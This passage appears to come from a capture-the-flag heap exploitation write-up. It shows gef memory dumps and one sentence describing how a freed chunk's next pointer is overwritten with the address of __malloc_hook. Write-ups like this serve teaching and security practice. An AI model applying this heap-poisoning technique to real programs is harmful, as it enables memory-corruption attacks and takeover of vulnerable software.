 ```
0x55d01d7cc860: 0x3333333333333333  0x0
0x55d01d7cc870: 0x0 0x0
0x55d01d7cc880: 0x0 0x0
0x55d01d7cc890: 0x0 0x0
0x55d01d7cc8a0: 0x0 0x0
0x55d01d7cc8b0: 0x0 0x0
0x55d01d7cc8c0: 0x0 0x0
0x55d01d7cc8d0: 0x0 0x0
0x55d01d7cc8e0: 0x0 0x0
0x55d01d7cc8f0: 0x0 0x0
0x55d01d7cc900: 0x0 0x0
0x55d01d7cc910: 0x0 0x0
0x55d01d7cc920: 0x0 0x0
0x55d01d7cc930: 0x0 0x0
0x55d01d7cc940: 0x0 0x0
0x55d01d7cc950: 0x0 0x101
0x55d01d7cc960: 0x55d01d7cca60  0x55d01d7cc010
```

Then we will free the `33333333` chunk, then immediately allocate a new chunk of size `0x174` and use it to overwrite the next pointer in the linked list to the address of the malloc hook:

```
gef➤  x/64g 0x55d01d7cc790
0x55d01d7cc790: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7a0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7b0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7c0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7d0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7e0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc7f0: 0x3434343434343434  0x3434343434343434
0x55d01d7cc800: 0x3434343434343434  0x3434343434343434
0x55d01d7cc810: 0x3434343434343434  0x3434343434343434
0x55d01d7cc820: 0x3434343434343434  0x3434343434343434
0x55d01d7cc830: 0x3434343434343434  0x3434343434343434
0x55d01d7cc840: 0x3434343434343434  0x3434343434343434
0x55d01d7cc850: 0x3434343434343434  0x181
0x55d01d7cc860: 0x3131313131313131  0x3131313131313131
0x55d01d7cc870: 0x3131313131313131  0x3131313131313131
0x55d01d7cc880: 0x3131313131313131  0x3131313131313131
0x55d01d7cc890: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8a0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8b0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8c0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8d0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8e0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc8f0: 0x3131313131313131  0x3131313131313131
0x55d01d7cc900: 0x3131313131313131  0x3131313131313131
0x55d01d7cc910: 0x3131313131313131  0x3131313131313131
0x55d01d7cc920: 0x3131313131313131  0x3131313131313131
0x55d01d7cc930: 0x3131313131313131  0x3131313131313131
0x55d01d7cc940: 0x3131313131313131  0x3131313131313131
0x55d01d7cc950: 0x3131313131313131  0x3131313131313131
0x55d01d7cc960: 0x7fea6bc49c30  0x55d01d7cc010
0x55d01d7cc970: 0x0 0x0
0x55d01d7cc980: 0x0 0x0
gef➤  x/g 0x7fea6bc49c30
0x7fea6bc49c30 <__malloc_hook>: 0x0
```
